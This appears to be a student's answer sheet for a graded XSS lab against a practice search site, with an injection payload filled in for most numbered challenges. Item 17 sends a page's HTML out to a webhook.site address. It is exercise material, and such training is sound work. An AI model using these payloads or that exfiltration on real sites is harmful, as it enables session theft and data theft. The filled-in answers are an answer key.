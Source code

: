 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)


TODO:```  <script> alert() </script> or (<script>success()</script>)``` 

  
# 2. No Script Allowed (3 points)


TODO:```  <img src onerror="alert('Hacked by Rashad:)')"> or </script><script>success()</script>``` 


# 3. One More Time, Like You Mean It (3 points)


TODO: ``` <img src onerror="alert('You are Rashad:D')"> or <scrscriptipt>alert(1)</scrscriptipt>``` 

# 4. An Open-and-Shut Case (3 points)


TODO:```  <ScRiPt>success()</sCriPt>``` 

# 5. Time to Mix Things Up (3 points)


TODO: ``` <img src onerror="alert('My name is Rashad')"> or <ScRiPt>success()</sCriPt>``` 

# 6. A Picture is Worth a Thousand Words (3 points)

 
TODO: ``` <img src onerror="alert('Rashad')"> or <image src =q onerror=success()>``` 
 
# 7. Between a Rock And a Hard Place (3 points)


TODO:```  <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="> or <iframe src=# onmouseover="success(document.cookie)"></iframe> or <button onClick="success()">Göndər</button>``` 

# 8. Angle of Death (6 points)

Attack input:


TODO:```  <<script>>success()</script> or <!--<img src="--><img src=x onerror=javascript:success()//">``` 


Server code:

js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})


# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)


TODO: ``` <iframe"<svg onload=alert()>"> or "<img src=/ onerror="success()" />``` 


# 11. You Can't Win 'em All (6 points)

Attack input:


TODO: ``` "" false = "success ()"``` 


Server code:

js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})


# 12. When All is Said and Done (6 points)

Attack input:


TODO: ``` '><script>alert();</script> or ' onload=success()``` 

Server code:

js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})


# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:


TODO: ``` http://caloogle.xyz:4140/search?q=a&lang=en%22%20onload=alert(1) ----" onload=alert(1) --- http://caloogle.xyz:4140/search?q=bdhehegdhg&lang=en%20onload=success()``` 

# 15. The Early Bird Catches the Worm (3 points)


TODO: ``` </script> <img src=/ onerror=success() /> <script>``` 
  
# 16. Tying Up Loose Ends (3 points)


TODO: ``` <<//ScrIpt><script>alert(1)<<//script> or <<<///scrip<<//script>>t>>><img src =q onerror=success()>``` 

# 17. Take a Page Out of Their Book (6 points)

Attack code:

js
// TODO:```  function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com/', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}
send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')``` 

# 18. Congrats

N/A

# Əlavə qeydlər


Əlavə qeydlərinizi yazın